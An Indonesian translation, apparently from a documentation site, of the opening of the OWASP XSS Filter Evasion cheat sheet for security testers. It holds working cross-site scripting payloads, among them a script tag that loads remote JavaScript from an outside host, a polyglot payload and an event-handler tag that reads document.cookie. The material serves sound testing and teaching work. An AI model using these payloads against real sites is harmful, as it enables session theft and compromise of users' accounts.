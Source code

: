 ```yaml
---
sidebar_position: 5
---
```


# XSS Filter Evasion

## Pengantar XSS Filter Evasion

Artikel ini adalah panduan untuk pengujian Cross Site Scripting (XSS) bagi para profesional keamanan aplikasi. Lembar contekan ini awalnya didasarkan pada Lembar Contekan XSS RSnake yang sebelumnya ada di: `http://ha.ckers.org/xss.html`. Kini, Seri Lembar Contekan OWASP menyediakan versi dokumen yang diperbarui dan dikelola oleh pengguna. Lembar Contekan OWASP pertama, [Pencegahan Cross Site Scripting](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), terinspirasi oleh karya RSnake dan kami berterima kasih kepada RSnake atas inspirasinya!

## Pengujian

Lembar contekan ini menunjukkan bahwa penyaringan input merupakan pertahanan yang tidak lengkap untuk XSS dengan menyediakan serangkaian serangan XSS kepada penguji yang dapat melewati filter pertahanan XSS tertentu.

### Uji XSS Dasar Tanpa Penghindaran Filter

Serangan ini, yang menggunakan injeksi JavaScript XSS normal, berfungsi sebagai dasar untuk lembar contekan (tanda kutip tidak diperlukan di browser modern mana pun sehingga dihilangkan di sini):

```html
<SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>
```

### Pencari XSS (Poliglot)

Uji ini memberikan 'muatan XSS uji poliglot' yang dijalankan dalam beberapa konteks, termasuk HTML, string skrip, JavaScript, dan URL:

```js
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
```

(Berdasarkan [tweet](https://twitter.com/garethheyes/status/997466212190781445) ini oleh [Gareth Heyes](https://twitter.com/garethheyes)).

### Tag A yang Salah Bentuk

Uji coba ini melewati atribut `[href](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/a#href)` untuk menunjukkan serangan XSS menggunakan pengendali peristiwa:

```js
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
```
